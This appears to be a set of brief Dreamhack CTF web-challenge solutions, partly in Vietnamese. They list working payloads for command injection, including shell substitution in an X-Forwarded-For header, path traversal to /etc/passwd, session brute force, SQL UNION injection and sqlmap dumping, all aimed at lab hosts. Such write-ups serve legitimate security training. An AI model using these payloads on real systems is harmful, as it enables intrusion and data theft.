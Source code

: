 # dreamhack.io
## Beginner
### php7cmp4re
```
input1=7.:&input2=7:
```
### phpreg
```
step1: input1=dnyanyangng0310&input2=1@43319!+1+13 
step2: cat /../dream/*
```
### ex-reg-ex
```
import re
i = "drabcdde123am@xyz.com"
m = re.match(r'dr\w{5,7}e\d+am@[a-z]{3,7}\.\w+', i)
print(m)
```
### Flying Chars
- Read src for win
### simple-web-request
- Read src and request for win

![image](https://github.com/user-attachments/assets/07441982-8730-4cdc-9491-e224b34fb5e9)

![image](https://github.com/user-attachments/assets/e46ec44a-fb38-41af-b5e5-b6834625743e)

### devtools-sources
- Dont need devtools i need a penguin
```grep -r "DH{" *```
### session

- Ở đây server phân biệt người dùng này với người dùng khác qua session_id. 
- Tuy nhiên độ dài của nó khá ngắn nên chúng ta có thể bf ra được.

![image](https://github.com/user-attachments/assets/4ed8bf4a-4263-49e8-ae56-b7653d5f75f7)

- Mình sẽ dùng brup để bf:

```
GET / HTTP/1.1
Host: host3.dreamhack.games:10491
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Language: en-US
Referer: http://host3.dreamhack.games:10491/login
Accept-Encoding: gzip, deflate, br
Cookie: sessionid=§i§
Connection: keep-alive
```

![image](https://github.com/user-attachments/assets/f65d445a-37a8-4552-bcba-6c885ca35c5b)

![image](https://github.com/user-attachments/assets/b7f2f260-2c44-427b-8f80-e6d8a63472f4)

### Carve Party
- Click bằng tay đi.
```js
for(i=0; i<=10000; i++){
 $('#jack-target').trigger("click")
}
```
### web-misconf-1
- config quên xóa default password
```
user: admin
pass: admin
```
### command-injection-1
- Server chạy subprocess nhưng không kiểm tra đầu vào của input:
```
ping -c 3 "{input}"
-> input = ";cat *;echo "
-> ping -c 3 ""; cat *; echo ""
```

### file-download-1
- không cần care phần upload đâu, đọc src sẽ thấy ```/read``` bị lỗi path traversal.
```
http://host3.dreamhack.games:24186/read?name=../../../../etc/passwd
tự thêm phần mà bạn muốn đọc vào để solve :v
```
### pathtraversal
- tương tự câu trên nhưng lần này là ở POST data.
```
 const users = {
    'guest': 0,
    'admin': 1
  }
userid=1/../../../api/flag
```
### cookie
```Cookie: sessionid=6c292920; username=admin```
## Level 1
### baby-Case
- muốn lấy được flag thì phải vào /shop, nhưng NGINX đã chặn path này.

  ![image](https://github.com/user-attachments/assets/ed349cc1-2ceb-474d-b815-57c48ea3716b)

- Chúng ta có thể lợi dụng việc sử lý URL của Express và NGINX để bypass ```/shop = /sHOP```
- Tiếp theo là bypass hàm ```search``` bằng cách thêm một kí tự lowcase vào data.

![image](https://github.com/user-attachments/assets/ee084983-0396-4a90-b253-9529a465ebe0)

```
POST /sHop HTTP/1.1
Host: host3.dreamhack.games:16045
Accept-Language: en-US
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.6533.100 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 8

leg=FlAG
```
### simple-phparse
- URLencode for win
```http://host3.dreamhack.games:13101/fl%61g.php```

### what-is-my-ip
- Chúng ta sẽ sử dụng ```X-Forwarded-For``` để kiểm soát input của IP.

![image](https://github.com/user-attachments/assets/515bbc02-e412-405b-9019-e58dcf1c25dd)

```X-Forwarded-For:$(cd ../; cat flag)```

### BypassIF
- Bài này vẫn là CMDinjection nhưng có thêm timeout.

![image](https://github.com/user-attachments/assets/5cca85b7-0b88-404e-9946-fc83b294b1e0)

- Nếu chúng ta cho server ```Sleep 10``` thì sẽ có key của admin.

### baby-union
- script kiddie go bruh bruh
```sqlmap -u http://host3.dreamhack.games:24120/ --data "uid=a&upw=a" --dump```
- hoặc
```uid='+UNION+SELECT+sflag,+sclose,sname+,+svalue+FROM+onlyflag--+-&upw=a```

### Type c-j
- Nếu m đọc tới đây, thì t biết là m đã bất lực.
- Tin t đi không làm ra đâu.
  ```input1=0000000000&input2=356abcde```
